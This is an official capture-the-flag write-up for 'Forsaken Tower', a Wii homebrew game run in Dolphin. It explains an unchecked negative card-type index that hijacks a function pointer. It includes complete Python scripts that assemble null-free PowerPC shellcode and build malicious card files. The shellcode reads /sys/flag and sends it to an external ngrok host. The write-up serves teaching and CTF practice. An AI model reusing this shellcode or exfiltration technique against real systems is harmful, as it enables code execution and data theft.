









# Forsaken Tower
Official Writeup by Frank01001
---



> Hey, my cousin lent me this Wii game we used to play together when we were kids. It was really cool because the developers also sold custom SD cards with additional cards to be added to the game. Man those were the days. Anyway I heard on Reddit that you can use it to install the Homebrew Channel. Anyone know how to do that?
<br><br>Author: Frank01001

**Goal**: get the contents of `/sys/flag` in system NAND
**Remote**: Dolphin 2506a emulator on Linux. The build has been patched to enable the use of networking in TAS (so you can provide us input). The patch is included in the attachments.
S

You are advised to use the same build on the same OS to avoid problems. Dolphin networking may encounter some issues on Windows. The web server used by the game in localhost is provided in the attachments as a "dummy" server that the game could have used in its intended functionality, but has not bearing on the challenge.

> Note: The writeup is written for a slightly older build of the challenge, however the only difference in the exploit is with the addresses used in the shellcode, which can be easily adapted to the new version. The game code is the same, so the exploit logic remains unchanged. To avoid further changes of addresses and allow remote reliability.

Special thanks to [danmaam](https://github.com/danmaam) for handling the cursed remote deployment of the challenge. He will probably never do this again.

## Challenge Overview
The challenge is a Wii homebrew game in ELF format (I had some compassion and scrapped the idea of giving the DOL format). All symbols are there, so there isn't much reversing to do, except getting acquainted with the codebase. The game has a splash screen and a menu, where you can download cards from the official servers (not hosted remotely, they are irrelevant to the challenge) or load ones from the SD card. We are also told the game runs on Dolphin 2506a and that the flag is in system NAND at `/sys/flag`.

When examining the code that updates the card info on the UI after selecting a different card, you can see an issue with how the card type is handled.



The card type (a **signed int**) is checked for values greater than the maximum type defined in the type enum, but not for negative values. The type's value is used as a pseudo-jump table index to call the appropriate function for rendering each card type. Therefore, passing a negative value will result in calling an undefined function, potentially an arbitrary function call.

### The Card File Format
With minimal reverse engineering of the ROM, you can reconstruct the file format used for game cards. 

| Offset | Description |
|--------|-------------|
| 0x00-0x06 | Magic (ASCII of `FTCARD`) |
| 0x06-0x08 | ID (unsigned short) |
| 0x08-0x0c | Size of JPEG image content (unsigned int) |
| 0x0c-0x10 | Offset of JPEG image in the file (unsigned int) |
| 0x10-0x11 | Card type number (0 for monster, 1 for spell, 2 for trap) |
| 0x11-0x14 | Zero padding |
| 0x14-0x16 | Attack value (unsigned short) |
| 0x16-0x18 | Defense value (unsigned short) |
| 0x18-... | Name (null terminated string) |
| ... | Description (right after Name, null terminated) |
| [JPEG offset] | JPEG content (size defined at 0x08-0x0c) |

All numbers are Big-Endian, since the Wii's Broadway CPU is PPC32 Big-Endian. The card ID is used to identify the card in the game, and the JPEG image is used as the card's visual representation. The name and description are null-terminated strings that provide additional information about the card.

Given the structure of the file format, we have plenty of space to store the shellcode and every string required by the exploit, including the URL to send the flag to.

## Exploitation
The game runs on Dolphin, where the file access control model is ignored and every file in NAND is readable and writable. Also, by exploring the game code a bit, we can locate interesting library functions and utilities, specifically:
- `ISFS_Open` and `ISFS_Read` functions, included from `libogc`, which allow file system access.
- `make_request`, which the game uses to download cards from the official game servers. The function takes a bare URL (without scheme), a port, content pointer and size.

Reusing this code, we can significantly simplify the exploit, which consists of a PowerPC 32 Big-Endian shellcode that:
1. Opens the file `/sys/flag` using `ISFS_Open`.
2. Reads the file into a buffer using `ISFS_Read`.
3. Calls `make_request` with the buffer to send the flag to a remote server.

You can debug the exploit by running Dolphin with `--debugger` from command line. Here, you can also disable the JIT engine if you need to, or clean up its cache. JIT cache is definitely something you have to be careful with, as it can lead to unexpected behavior when debugging.

### Debugging Setup
> Reminder: The code and stack addresses in the following sections refer to the older build of the challenge.

For the purposes of debugging, it's handy to put a breakpoint at `0x8000B618`, the instruction in `_setCardInfo` which fetches the correct function pointer from the array on the stack. The next instructions will call the retrieved pointer to handle the UI setup for the corresponding card type.



### Calling Convention
Before continuing, it is useful to know some relevant aspects of the PowerPC calling convention, so that we can better understand what is going on in the code.

| Register(s)              | Purpose                                                         | Category                                     |
| ------------------------ | --------------------------------------------------------------- | -------------------------------------------- |
| **r0**                 | Used in function prologues as a temporary register              | Volatile                     |
| **r1**            | Stack pointer (SP), points to current frame’s back-chain word   | Dedicated                    |
| **r2**            | Table of Contents pointer (TOC) for PIC/global data access      | Dedicated                    |
| **r3**            | 1st integer/pointer argument; also holds 1st return value       | Volatile                     |
| **r4**            | 2nd integer/pointer argument; also holds 2nd return value       | Volatile                     |
| **r5**            | 3rd integer/pointer argument                                    | Volatile                     |
| ... |                     |
| **r10**          | 8th integer/pointer argument                                    | Volatile                     |
| **r14–r31**          | General‐purpose nonvolatile registers (callee‐saved)            | Nonvolatile                  |
| **FPR0**                 | Scratch floating-point register                                 | Volatile                     |
| **FPR1**                 | 1st floating-point argument; also holds 1st FP return value     | Volatile                     |
| **FPR2**                 | 2nd floating-point argument; also part of multi-regs FP return  | Volatile                     |
| **FPR3–FPR13**           | 3rd–13th floating-point arguments                               | Volatile                     |
| **FPR14–FPR31**          | Floating-point nonvolatile registers (callee-saved)             | Nonvolatile                  |
| **LR (Link Register)**   | Holds return address for subroutine calls                       | Special |
| **CTR (Count Register)** | Alternate branch/loop target register                           | Special   |

Knowing that r1 is used as the stack pointer, we can check out the state of the stack when hitting the breakpoint. The stack pointer is at `0x808626d0`. From IDA, we gathered that the table of function calls is at `sp+108h`. Luckly for us, our array of function pointers is right after the temporary buffer where the card description is placed.



In the figure, the brown pointer is that of the `setMonsterCardInfo` function. After that, `setSpellCardInfo`, `setTrapCardInfo`, and `unknownCardTypeInfo` follow in cyan, purple, and grey. If you put a pointer to your shellcode in the card’s description, you can line it up so a negative type value jumps straight to it.

To simplify the inclusion of required strings, we can use a second crafted card with the path to the flag and the url of the endpoint where we want the flag to be sent (I used [ngrok](https://ngrok.com/) for simplicity). The game loads cards in alphabetical order, so we can control where each card data will end up in memory.


To copy the name and description from a card, the game uses [`strncpy`](https://man7.org/linux/man-pages/man3/strncpy.3p.html). Therefore, our shellcode must contain no null bytes (or rely on the dirty buffer used to load the original file, a risky option). For improved reliability, my shellcode contains no null bytes.


Making a mistake in the exploit is pretty noticeable, as the game will crash with an exception containing the general purpose register values and the the call stack trace.


The following are the scripts used to generate the cards, in this case we include addresses from the latest build of the game, which is the one you will find in the attachments. The first script generates the shellcode, while the second one generates the two cards:

exploit.py
```py
from keystone import Ks, KS_ARCH_PPC, KS_MODE_PPC32, KS_MODE_BIG_ENDIAN
from colorama import Fore, Style, init as colorama_init

# ---------- Wii IOS symbols ----------

# Old Addresses
# ISFS_Open     = 0x80107DE0
# ISFS_Read     = 0x80107ED0
# make_request  = 0x8000C9AC
ISFS_Open     = 0x80107DE4
ISFS_Read     = 0x80107ED4
make_request  = 0x8000C974

# ---------- Data locations ------------

# Old Addresses
# Get the new ones inside the Docker
PATH_LOCATION   = 0x90799718
URL_LOCATION    = 0x90799722
READ_BUFFER     = 0x90799760

PORT = 13179

# ---------- Helpers -------------------
h16 = lambda v: (v >> 16) & 0xFFFF
l16 = lambda v:  v        & 0xFFFF

asm_source = f"""
        addis 3, 0, 0x{h16(PATH_LOCATION):04x}
        ori   3, 3, 0x{l16(PATH_LOCATION):04x}
        xor   4, 4, 4        # clear r4
        # We just need 1 in r4, but we can't use null bytes
        addi  4, 4, 0x101
        andi.   4, 4, 0xf0ff

        addis 12, 0, 0x{h16(ISFS_Open):04x}
        ori   12,12, 0x{l16(ISFS_Open):04x}
        mtctr 12
        bctrl

        or    31,3,3

        or    3,31,31
        addis 4, 0, 0x{h16(READ_BUFFER):04x}
        ori   4, 4, 0x{l16(READ_BUFFER):04x}
        xor   5, 5, 5        # clear r5
        addi  5, 5, 0x101
        andi.   5, 5, 0xfff0

        addis 12,0, 0x{h16(ISFS_Read):04x}
        ori   12,12,0x{l16(ISFS_Read):04x}
        mtctr 12
        bctrl

        addis 3, 0, 0x{h16(URL_LOCATION):04x}
        ori   3, 3, 0x{l16(URL_LOCATION):04x}
        xor  4, 4, 4        # clear r4
        xor 4, 4, 4        # clear r4
        addi  4, 4, 0x{PORT:04x}
        addis 5, 0, 0x{h16(READ_BUFFER):04x}
        ori   5, 5, 0x{l16(READ_BUFFER):04x}
        xor   6, 6, 6        # clear r6
        addi  6, 6, 0x101
        andi.   6, 6, 0xfff0 # Avoid null bytes in

        xor   12, 12, 12        # clear r12
        addis 12,12, 0x{h16(make_request)^0x0110:04x} # We need is to not have null bytes
        ori   12,12, 0x{l16(make_request):04x}
        xor   11, 11, 11        # clear r11
        addis 11,11, 0x0110
        xor   12, 11, 12  # r12 = make_request ^ 0x00100000
        mtctr 12
        bctrl
    """

def assemble(asm_source: str) -> bytes:
    """Assemble the given PPC32 Big-Endian source to raw shellcode."""
    ks = Ks(KS_ARCH_PPC, KS_MODE_PPC32 | KS_MODE_BIG_ENDIAN)
    encoding, _ = ks.asm(asm_source)
    return bytes(encoding)

def highlight_shellcode(data: bytes) -> str:
    """Return a printable string with \x00 bytes rendered in red."""
    out = []
    for b in data:
        byte = f"\\x{b:02x}"
        if b == 0:
            out.append(f"{Fore.RED}{byte}{Style.RESET_ALL}")
        else:
            out.append(byte)
    return ''.join(out)

def instructions_causing_nulls(asm_source: str) -> list[tuple[str, bytes]]:
    """
    Re-assemble each individual instruction so we can tell
    which of them produces a 0x00 byte.
    """
    ks = Ks(KS_ARCH_PPC, KS_MODE_PPC32 | KS_MODE_BIG_ENDIAN)
    offenders = []
    for raw in asm_source.splitlines():
        # strip comments and blank lines
        instr = raw.split('#', 1)[0].strip()
        if not instr:
            continue
        enc, _ = ks.asm(instr)
        encoded = bytes(enc)
        if 0 in encoded:
            offenders.append((instr, encoded))
    return offenders

# ---------- Main entry point ----------
if __name__ == "__main__":
    colorama_init(autoreset=True)

    shellcode  = assemble(asm_source)

    # 1) Pretty print the final shellcode
    print(f"shellcode length: {len(shellcode)} bytes\n")
    print(highlight_shellcode(shellcode), "\n")

    # 2) Show which instructions contain nul bytes
    bad_instrs = instructions_causing_nulls(asm_source)
    if bad_instrs:
        print("Instructions containing \\x00 bytes:\n")
        for instr, enc in bad_instrs:
            hex_bytes = ' '.join(f"{b:02x}" for b in enc)
            print(f"  {instr:<24} →  {hex_bytes}")
    else:
        print("Great news: no instruction introduced a null byte!")
```

And to finally craft the two cards...

```py
import enum
import os

class CardType(enum.Enum):
    MONSTER = 0
    SPELL = 1
    TRAP = 2


def p32(value: int) -> bytes:
    """Convert an integer to a 4-byte big-endian representation."""
    return value.to_bytes(4, byteorder='big')

class Card:
    def __init__(self, id, texture, card_type, name, description, attack=0, defense=0):
        self.id = id
        self.texture = texture
        self.type = card_type
        self.name = name
        self.description = description
        self.attack = attack
        self.defense = defense

        if len(self.name) > 32:
            raise ValueError(f"Name '{self.name}' exceeds 32 characters.")

    def serializeToBinary(self, output_path):
        # Magic
        magic = b"FTCARD"
        # Id
        id = self.id.to_bytes(2, byteorder='big')
        # Size of the jpeg image content
        size = len(self.texture).to_bytes(4, byteorder='big')
        # Card type number
        card_type = self.type.value if isinstance(self.type, CardType) else self.type
        card_type = card_type.to_bytes(1, byteorder='big', signed=True)
        # Zero padding
        zero_padding = b"\x00\x00\x00"
        # Attack value
        attack = self.attack.to_bytes(2, byteorder='big', signed=False)
        # Defense value
        defense = self.defense.to_bytes(2, byteorder='big', signed=False)
        # Name
        name = self.name.encode('utf-8') + b"\x00"
        # Description
        description = (self.description + b"\x00") if isinstance(self.description, bytes) else (self.description.encode('utf-8') + b"\x00")
        
        # Offset of jpeg image in the file
        offset = (0x18 + len(name) + len(description)).to_bytes(4, byteorder='big')

        file_contents = magic + id + size + offset + card_type + zero_padding + attack + defense + name + description + self.texture
        
        with open(output_path, "wb") as f:
            f.write(file_contents)
            print(f"Saved: {output_path}")

# Random images to use as card textures for completeness
graphics_source1 = "/home/frank01001/Pictures/Misc/bus.jpg"
graphics_source2 = "/home/frank01001/Pictures/Misc/giarre.jpg"

# I directly load them in my SD card sync folder
out_path = "/home/frank01001/.var/app/org.DolphinEmu.dolphin-emu/data/dolphin-emu/Load/WiiSDSync/apps/forsaken_tower/content/"

shellcode = b'\x3c\x60\x90\x79\x60\x63\x97\x18\x7c\x84\x22\x78\x38\x84\x01\x01\x70\x84\xf0\xff\x3d\x80\x80\x10\x61\x8c\x7d\xe4\x7d\x89\x03\xa6\x4e\x80\x04\x21\x7c\x7f\x1b\x78\x7f\xe3\xfb\x78\x3c\x80\x90\x79\x60\x84\x97\x60\x7c\xa5\x2a\x78\x38\xa5\x01\x01\x70\xa5\xff\xf0\x3d\x80\x80\x10\x61\x8c\x7e\xd4\x7d\x89\x03\xa6\x4e\x80\x04\x21\x3c\x60\x90\x79\x60\x63\x97\x22\x7c\x84\x22\x78\x7c\x84\x22\x78\x38\x84\x28\x83\x3c\xa0\x90\x79\x60\xa5\x97\x60\x7c\xc6\x32\x78\x38\xc6\x01\x01\x70\xc6\xff\xf0\x7d\x8c\x62\x78\x3d\x8c\x81\x10\x61\x8c\xc9\x74\x7d\x6b\x5a\x78\x3d\x6b\x01\x10\x7d\x6c\x62\x78\x7d\x89\x03\xa6\x4e\x80\x04\x21'

# Create the output directory if it doesn't exist
os.makedirs(out_path, exist_ok=True)

dns = "6.tcp.eu.ngrok.io"

urlcard = Card(
    id=778,
    texture=open(graphics_source1, "rb").read(),
    card_type=CardType.MONSTER,
    name="/sys/flag",
    description= dns.encode() + b'\x00' + b"A" * (0x200 - len(dns) -1),
    attack=0,
    defense=0
)

exploit = Card(
    id=777,
    texture=open(graphics_source2, "rb").read(),
    card_type=-4,
    name="Exploit",
    description=b"AAA\xFF" + shellcode + p32(0x811503a4) * (104 // 4),
    attack=0, 
    defense=0
)

# Serialize the card to binary
output_path = os.path.join(out_path, f"{778}.bin")

urlcard.serializeToBinary(output_path)


# Serialize the card to binary
output_path = os.path.join(out_path, f"{777}.bin")

exploit.serializeToBinary(output_path)
```

## Putting it all together
Finally, we can put the cards in the SD folder that the game uses (`/apps/forsaken_tower/content/`)

Then, when the game is in the main menu, we press B on "Get New Cards"



Then we press B again on "Check SD Card"



Now the cards are loaded and saved in the Wii NAND at `/title/12345678/00000002/content/` and can be loaded to be rendered in their full glory.

Going to "Your Deck", you can see builtin cards together with your custom cards from the SD and, if any, cards downloaded from the game servers. In the following screenshot, for example, we can see the card with relevant strings being rendered to the player. As an easter egg, I included the image of a ATM bus (ATM is the public transportation company in Milano). When you press left on the DPAD, the game will try to load the exploit card, executing the arbitrary shellcode and sending you the flag.



And sure enough, after running the exploit, we get the flag on our endpoint.

